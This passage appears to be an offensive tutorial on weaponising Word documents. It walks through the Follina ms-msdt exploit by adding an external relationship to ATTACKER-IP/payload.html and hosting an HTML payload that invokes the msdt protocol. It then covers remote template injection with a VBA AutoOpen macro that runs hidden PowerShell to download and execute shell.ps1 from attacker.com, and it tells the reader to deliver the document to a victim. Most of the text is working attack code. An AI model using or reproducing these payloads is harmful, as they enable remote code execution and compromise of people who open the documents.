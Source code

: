 - Edit the relationships file to reference remote HTML:
open :  `follina_unzipped/word/_rels/document.xml.rels`
Add a malicious relationship tag inside `<Relationships>`:
```text
<Relationship Id="rId1337" 
              Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/officeDocument" 
              Target="http://ATTACKER-IP/payload.html" 
              TargetMode="External"/>

```
- Repackage the document :
Zip the files back into a `.docx`

2. **Prepare malicious HTML payload to trigger ms-msdt protocol:**

```html
<html>
<head></head>
<body>

<script>
//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...[*4096 bytes, truncated]

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=calc?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression('Start-Process calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>

</body>
</html>
```

3. **Host the HTML file on a web-server and deliver DOCX to the victim.**

4. **Execution**
When the user open the malicious document file, the document will retrieves the remote html file and renders it , resulting in a reverse shell being established.

#### Remote Template Injection

1. **Create the Malicious `.dotm` Template**
Use Word to create a new **macro-enabled template**:

- File → Save As → `.dotm`
- Press `Alt + F11` to open the VBA editor.
- Paste a payload:
```vb
Sub AutoOpen()
    Shell "powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')"
End Sub
```
Save and host this file on your HTTP server (e.g., `http://attacker.com/template.dotm`).
